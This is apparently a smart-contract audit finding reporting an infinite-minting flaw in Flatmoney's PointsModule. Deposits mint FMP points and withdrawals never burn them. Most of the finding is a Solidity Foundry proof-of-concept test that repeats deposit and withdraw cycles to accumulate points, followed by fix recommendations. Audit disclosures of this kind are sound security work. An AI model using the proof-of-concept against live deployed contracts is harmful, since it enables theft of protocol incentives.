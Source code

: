 Brisk Boysenberry Raven

medium

# Infinite Minting `PointsModule::FMP`

## Summary
Infinite Minting `PointsModule::FMP`
## Vulnerability Detail
When `DelayedOrder::_executeStableDeposit()` is called, `StableModule::executeDeposit()` -> `PointsModule::mintDeposit()` will be executed to mint the corresponding amount of `PointsModule::FMP`.
```js
    function executeDeposit(
        address _account,
        uint64 _executableAtTime,
        FlatcoinStructs.AnnouncedStableDeposit calldata _announcedDeposit
    ) external whenNotPaused onlyAuthorizedModule returns (uint256 _liquidityMinted) {
        <SNIP>
        // Mint points
        IPointsModule pointsModule = IPointsModule(vault.moduleAddress(FlatcoinModuleKeys._POINTS_MODULE_KEY));
@>        pointsModule.mintDeposit(_account, _announcedDeposit.depositAmount);

        emit FlatcoinEvents.Deposit(_account, depositAmount, _liquidityMinted);
    }
```
But `StableModule::executeWithdraw()` is missing burn

The attacker can invoke `DelayedOrder::announceStableDeposit()` and `DelayedOrder::announceStableWithdraw()` infinitely mint `PointsModule::FMP`, and ideally complete the work related to Keeper to achieve a non-consuming Minter `PointsModule::FMP`
### POC
Please add the test file to `test/unit/Delayed-Order/` and execute it
```js
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {Setup} from "../../helpers/Setup.sol";
import {OrderHelpers} from "../../helpers/OrderHelpers.sol";
import "forge-std/console2.sol";
import {IDelayedOrder} from "src/interfaces/IDelayedOrder.sol";
import {IOracleModule} from "src/interfaces/IOracleModule.sol";
import {IStableModule} from "src/interfaces/IStableModule.sol";
import {FlatcoinModuleKeys} from "src/libraries/FlatcoinModuleKeys.sol";
import {FlatcoinStructs} from "src/libraries/FlatcoinStructs.sol";
import {IERC20Upgradeable} from "openzeppelin-contracts-upgradeable/contracts/interfaces/IERC20Upgradeable.sol";

contract DelayedOrderInfiniteMint is Setup, OrderHelpers {
    // Infinite mint pointsToken
    function test_InfiniteMintPointsModuleToken() public {
        uint256 aliceWethBalanceBefore = WETH.balanceOf(alice);
        // mint once
        uint256 amountOfEachMint = aliceAnnounceAndExecuteOrder();
        // mint Five times
        for (uint256 i = 0; i < 5; ++i) {
            aliceAnnounceAndExecuteOrder();
        }

        uint256 aliceWethBalanceAfter = WETH.balanceOf(alice);
        console2.log(amountOfEachMint);
        assertEq(amountOfEachMint, 99999999e17);
        assertEq(aliceWethBalanceAfter, aliceWethBalanceBefore);
        assertEq(pointsModProxy.balanceOf(alice), amountOfEachMint * 6);
    }

    function aliceAnnounceAndExecuteOrder() public returns (uint256 alicePiontsToken) {
        uint256 keeperFeeAmount = mockKeeperFee.getKeeperFee();
        uint256 oraclePrice = 1800e8;
        vm.startPrank(alice);
        //////////////////
        //    Deposit  ///
        //////////////////
        WETH.increaseAllowance(address(delayedOrderProxy), WETH.balanceOf(alice));
        // call announceStableDeposit()
        IDelayedOrder(vaultProxy.moduleAddress(DELAYED_ORDER_KEY)).announceStableDeposit({
            depositAmount: WETH.balanceOf(alice) - keeperFeeAmount,
            minAmountOut: IStableModule(vaultProxy.moduleAddress(FlatcoinModuleKeys._STABLE_MODULE_KEY)).stableDepositQuote(
                WETH.balanceOf(alice) - keeperFeeAmount
                ),
            keeperFee: keeperFeeAmount
        });
        skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time
        bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice);
        // call executeOrder()
        IDelayedOrder(vaultProxy.moduleAddress(DELAYED_ORDER_KEY)).executeOrder{value: 1}(alice, priceUpdateData);
        //////////////////
        //   Withdraw  ///
        //////////////////
        // call announceStableWithdraw()
        uint256 alicelpBalance = IERC20Upgradeable(stableModProxy).balanceOf(alice);
        IDelayedOrder(vaultProxy.moduleAddress(DELAYED_ORDER_KEY)).announceStableWithdraw(
            alicelpBalance, alicelpBalance - keeperFeeAmount, keeperFeeAmount
        );
        skip(uint256(vaultProxy.minExecutabilityAge()));
        priceUpdateData = getPriceUpdateData(oraclePrice);
        // call executeOrder()
        IDelayedOrder(vaultProxy.moduleAddress(DELAYED_ORDER_KEY)).executeOrder{value: 1}(alice, priceUpdateData);
        vm.stopPrank();
        alicePiontsToken = pointsModProxy.balanceOf(alice);
    }
}
```
## Impact
Infinite Minting `PointsModule::FMP`
## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L496-L519
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/StableModule.sol#L82-L86
## Tool used

Manual Review

## Recommendation
Consider verifying the maximum peak of tokens deposited by the user, and if the maximum peak part has already obtained the corresponding incentive token, do not call `PointsModule::mintDeposit()`.However, this does not prevent users from receiving multiple addresses repeatedly. It is recommended to consider the use of the token comprehensively,Increase the lock-up time, and burn the corresponding token for withdrawal.
